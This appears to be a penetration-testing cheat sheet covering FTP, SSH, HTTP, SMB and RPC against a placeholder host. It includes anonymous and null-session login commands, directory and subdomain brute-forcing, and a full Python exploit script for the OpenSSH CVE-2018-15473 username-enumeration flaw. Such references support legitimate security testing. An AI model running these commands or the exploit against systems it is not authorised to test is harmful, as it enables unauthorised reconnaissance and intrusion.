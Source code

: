 ```yaml
---
icon: network-wired
---
```


# Network Services

## FTP

#### Anonymous login

{% code overflow="wrap" %}
```bash
ftp anonymous@10.10.10.10  # No password needed
```
{% endcode %}

#### Auto login

{% code overflow="wrap" %}
```bash
sshpass -p 'pass' ftp user@10.10.10.10
```
{% endcode %}

#### Browser URL

{% code overflow="wrap" %}
```bash
ftp://user:pass@10.10.10.10
```
{% endcode %}

#### SSL

{% code overflow="wrap" %}
```bash
lftp 10.10.10.10 -e "set ssl:verify-certificate no; set ftp:ssl-force true"
```
{% endcode %}

#### Download all files

{% code overflow="wrap" %}
```bash
wget -r --user='user' --password='pass' ftp://10.10.10.10
```
{% endcode %}

## SSH

#### Default credentials

Check for default credentials depending on the vendor:

[https://book.hacktricks.xyz/network-services-pentesting/pentesting-ssh#default-credentials](https://book.hacktricks.xyz/network-services-pentesting/pentesting-ssh#default-credentials)

#### Auto login

```
sshpass -p 'pass' ssh user@10.10.10.10
```

#### Private key login

{% code overflow="wrap" %}
```bash
ssh -i id_rsa user@10.10.10.10
```
{% endcode %}

#### Generate RSA keys

{% code overflow="wrap" %}
```bash
ssh-keygen -t rsa -f id_rsa
```
{% endcode %}

#### User enumeration - OpenSSH <7.7

Any version of OpenSSH up to 7.7 is vulnerable to user enumeration (CVE-2018-15473) if not patched. To exploit this vulnerability, we can use the following script:

<details>

<summary>ssh_user_enum.py</summary>

{% code overflow="wrap" fullWidth="true" %}
```python
#!/usr/bin/env python2

import argparse
import logging
import paramiko
import socket
import sys
from colorama import init, Fore
from threading import Thread, current_thread, enumerate as enumerate_threads

class SSHUserChecker:
    def __init__(self, target, port=22):
        self.target = target
        self.port = port

        # Remove paramiko logging
        logging.getLogger('paramiko.transport').addHandler(logging.NullHandler())

        # Assign functions to respective handlers
        self._old_service_accept = paramiko.auth_handler.AuthHandler._client_handler_table[paramiko.common.MSG_SERVICE_ACCEPT]
        paramiko.auth_handler.AuthHandler._client_handler_table[paramiko.common.MSG_SERVICE_ACCEPT] = self._service_accept
        paramiko.auth_handler.AuthHandler._client_handler_table[paramiko.common.MSG_USERAUTH_FAILURE] = self._invalid_username

    def _service_accept(self, *args, **kwargs):
        paramiko.message.Message.add_boolean = self._add_boolean
        return self._old_service_accept(*args, **kwargs)

    def _add_boolean(self, *args, **kwargs):
        pass

    def _invalid_username(self, *args, **kwargs):
        raise InvalidUsername()

    def check_user(self, username):
        sock = socket.socket()
        sock.connect((self.target, self.port))
        transport = paramiko.transport.Transport(sock)

        try:
            transport.start_client()
        except paramiko.ssh_exception.SSHException:
            print (Fore.RED + '\n[!] Failed to negotiate SSH transport for user:' + username)
            return False

        try:
            transport.auth_publickey(username, paramiko.RSAKey.generate(2048))
        except InvalidUsername:
            return False
        except paramiko.ssh_exception.AuthenticationException:
            return True
        return False

class InvalidUsername(Exception):
    pass

def check_user_wrapper(user_checker, username, valid_users, invalid_users):
    if user_checker.check_user(username):
        valid_users.append(username)
    else:
        invalid_users.append(username)

def main():
    parser = argparse.ArgumentParser(description='SSH User Enumeration')
    parser.add_argument('-u', '--username', help="Username to check for validity.")
    parser.add_argument('-w', '--wordlist', help="Wordlist file containing usernames to check.")
    parser.add_argument('-p', '--port', type=int, default=22, help="Set port of SSH service")
    parser.add_argument('target', help="IP address of the target system")

    if len(sys.argv) == 1:
        parser.print_help()
        sys.exit(1)

    args = parser.parse_args()

    user_checker = SSHUserChecker(args.target, args.port)
    valid_users = []
    invalid_users = []

    if args.wordlist:
        with open(args.wordlist, 'r') as f:
            for line in f:
                username = line.strip()
                t = Thread(target=check_user_wrapper, args=(user_checker, username, valid_users, invalid_users))
                t.start()
    else:
        if not args.username:
            parser.error("[!] You must specify either a username (-u) or a wordlist (-w).")
        else:
            t = Thread(target=check_user_wrapper, args=(user_checker, args.username, valid_users, invalid_users))
            t.start()

    # Esperar a que todos los hilos terminen
    for t in enumerate_threads():
        if t != current_thread():
            t.join()

    if args.wordlist:
        if valid_users:
            print(Fore.GREEN + "\n[+] Valid users:")
            for user in valid_users:
                print(Fore.GREEN + "{}".format(user))
        else:
            print(Fore.RED + "\n[-] No valid users found.")
    else:
        if valid_users:
            print(Fore.GREEN + "\n[+] Valid user: {}".format(args.username))
        else:
            print(Fore.RED + "\n[-] Invalid user: {}".format(args.username))

if __name__ == "__main__":
    main()
```
{% endcode %}

</details>

## HTTP/HTTPS

#### Web Technologies

{% code overflow="wrap" %}
```bash
whatweb http://10.10.10.10
```
{% endcode %}

{% embed url="https://www.wappalyzer.com/apps/" %}
I also recommend using this browser extension.
{% endembed %}

#### File and Directory Enumeration

{% code overflow="wrap" %}
```bash
nmap -p80,443 --script http-enum 10.10.10.10
```
{% endcode %}

{% code overflow="wrap" %}
```bash
gobuster dir -u http://10.10.10.10/ -w wordlist.txt
```
{% endcode %}

{% code overflow="wrap" %}
```bash
wfuzz -w wordlist.txt http://10.10.10.10/FUZZ
```
{% endcode %}

{% code overflow="wrap" %}
```bash
# Good option for BurpSuite requests
ffuf -request request.txt -w wordlist.txt http://10.10.10.10/
```
{% endcode %}

#### Subdomain Enumeration

{% code overflow="wrap" %}
```bash
gobuster vhost -u http://target.com/ -w wordlist.txt
```
{% endcode %}

{% code overflow="wrap" %}
```bash
wfuzz -H 'Host: FUZZ.target.com' -w wordlist.txt http://target.com/
```
{% endcode %}

#### User input

{% content-ref url="web-vulnerabilities/" %}
[web-vulnerabilities](web-vulnerabilities/)
{% endcontent-ref %}

## SMB

System enumeration with `enum4linux`

```bash
enum4linux -a [-u 'user' -p 'pass'] 10.10.10.10
```

#### Shares Enumeration

{% tabs %}
{% tab title="smbclient" %}
{% code overflow="wrap" %}
```bash
# null session
smbclient -N -L //10.10.10.10
# authenticated
smbclient -U 'user[%pass]' -L //10.10.10.10
# conect to a share
smbclient [-U 'user[%pass]'] //10.10.10.10/share
```
{% endcode %}
{% endtab %}

{% tab title="smbmap" %}
{% code overflow="wrap" %}
```bash
# null session
smbmap -H 10.10.10.10
# authenticated
smbmap -u "user" -p "pass" -H 10.10.10.10
# recursive/non-recursive listing
smbmap [-u "user" -p "pass"] -R/-r share -H 10.10.10.10
```
{% endcode %}
{% endtab %}

{% tab title="netexec" %}
{% code overflow="wrap" %}
```bash
# null session
nxc smb 10.10.10.10 -u '' -p '' --shares
# authenticated
nxc smb 10.10.10.10 -u 'user' -p 'pass' --shares
# List share
nxc smb 10.10.10.10 [-u 'user' -p 'pass'] --share share
```
{% endcode %}
{% endtab %}

{% tab title="nmap" %}
{% code overflow="wrap" %}
```bash
nmap -p 139,445 --script "smb-enum-shares" 10.10.10.10
```
{% endcode %}
{% endtab %}
{% endtabs %}

## RPC

#### Automated Enumeration

{% code overflow="wrap" %}
```bash
rpcdump.py 10.10.10.10
```
{% endcode %}

#### Manual Enumeration

{% code overflow="wrap" %}
```bash
# null session
rpcclient -U "" -N 10.10.10.10
# authenticated
rpcclient -U 'user%pass' -N 10.10.10.10
# commands
rpcclient -U '[user%pass]' -N 10.10.10.10 -c 'command'
```
{% endcode %}

